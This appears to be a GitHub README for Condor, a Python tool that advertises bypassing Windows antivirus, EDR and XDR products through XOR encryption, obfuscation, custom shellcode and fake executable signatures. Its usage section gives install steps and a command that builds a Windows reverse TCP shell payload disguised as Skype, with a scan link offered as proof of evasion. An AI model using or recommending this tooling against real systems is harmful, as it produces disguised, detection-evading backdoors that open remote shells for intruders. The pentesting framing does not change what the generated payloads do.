




<h1 align="center">「🛡️」About Condor</h1>

<p align="center"></p>

<p align="center">Condor is a tool created to help pentesters bypass protections like AVs/EDRs/XDRs in the Windows operating system. Condor was developed in Python and has several advantages to help pentesters.</p>

## Executable Scan



## Benefits

* Easy to use
* Bypass multiple AVs/EDRs/XDRs
* Two XOR encryption process and an obfuscation
* The generated file is less than 7mb
* Using custom shellcode
* Fake signature on executable

## Environment support

| OS/Subsystem | Installation of All Requirements | Compilation | EXE Execution |
| ----------- | ----------- | ----------- | ----------- |
| Windows | ❌ | ✅ | ✅ |
| Linux | ✅ | ✅ | ❌ |
| Mac | not tested | not tested | not tested |
| WSL | ✅ | ✅ | ✅ |

## Help


[Reference](https://antiscan.me/scan/new/result?id=ioGKcbzBcSzj)


## Usage

It is recommended to run the tool in a WSL environment, as you will need to generate shellcodes using msfvenom and compile to EXE using pyinstaller.

```
$ git clone https://github.com/MrEmpy/Condor.git
$ cd Condor
$ chmod +x install.sh
$ sudo ./install.sh
...
$ python3 condor.py -p windows/x64/shell/reverse_tcp -lh <LOCAL HOST> -lp <LOCAL PORT> -i skype
```

It is necessary to have wine installed on the machine to be able to install Python. Install as shown in the screenshot:



## Buy me a coffee?

<a href="https://pixgg.com/MrEmpy" target="_blank">
  
</a>
</br>
</br>
<a href="https://www.buymeacoffee.com/mrempy" target="_blank">
  
</a>
